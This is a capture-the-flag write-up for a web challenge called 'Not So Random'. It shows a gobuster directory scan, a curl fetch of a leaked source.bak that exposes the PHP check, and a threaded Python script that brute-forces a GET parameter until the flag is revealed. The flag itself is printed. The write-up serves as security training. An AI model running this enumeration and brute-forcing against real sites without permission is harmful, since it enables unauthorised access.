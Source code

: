 # Web Recon \& Enumeration Not So Random

First of all we have the site: http://ctf-06.security.cs.pub.ro:8000/ 

'Nothing to see here' which led me to a commonlist to see if there are hidden **endpoints/files/directories** with gobuster an instrument of type brute-force:
**gobuster dir -u http://ctf-06.security.cs.pub.ro:8000/ -w ~/common.txt**

```bash
/.hta.html            (Status: 403) [Size: 292]
/.hta                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 292]
/.htaccess.txt        (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 292]
/.hta.bak             (Status: 403) [Size: 292]
/.htaccess.php        (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 292]
/.htpasswd.php        (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 292]
/.htaccess.bak        (Status: 403) [Size: 292]
/.htaccess.html       (Status: 403) [Size: 292]
/.htpasswd.txt        (Status: 403) [Size: 292]
/.htpasswd.bak        (Status: 403) [Size: 292]
/index.php            (Status: 200) [Size: 19]
/index.php            (Status: 200) [Size: 19]
/server-status        (Status: 403) [Size: 292]
/source.bak           (Status: 200) [Size: 110]
```

The interesting part is **source.bak** and **index.php**: 
We curl: 

```bash
vladpiriia@Vlads-MacBook-Air ~ % curl http://ctf-06.security.cs.pub.ro:8000/source.bak
if (isset($_GET['random_numberrr']) && intval($_GET['random_numberrr']) === $random_number) {
    echo $flag;
}%
```

This means that server verifies if we send a **GET** parameter named random_numberrr then compares that with a secret value $random_number and then if they are equal we are shown the flag.

But : **GET http://ctf-06.security.cs.pub.ro:8000/source.bak?random_numberrr=12345** ***Source.bak*** este is a statice file, the server doesn't understand that PHP code, it shows as text, it doesn't run it so we need to modify it to have a script for: **http://ctf-06.security.cs.pub.ro:8000/index.php?random_numberrr=12345**.

```py
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://ctf-06.security.cs.pub.ro:8000/index.php"

def check_number(num):
    try:
        r = requests.get(url, params={'random_numberrr': num}, timeout=3)
        if "SSS{" in r.text:
            return f"\nFlag {num}: {r.text.strip()}"
        else:
            print(f"[-] Testat: {num}", flush=True)
    except requests.RequestException:
        print(f"[!] Eroare la: {num}", flush=True)
    return None

def brute_force_multi(start=20001, end=99999, threads=30):
    with ThreadPoolExecutor(max_workers=threads) as executor:
        futures = [executor.submit(check_number, i) for i in range(start, end + 1)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                print(result)
                executor.shutdown(wait=False, cancel_futures=True)
                break

if __name__ == "__main__":
    brute_force_multi()
```


So then we find the flag at the number *49 999*: **Flag 49999: SSS{random_can_sometimes_be_predictable}**.

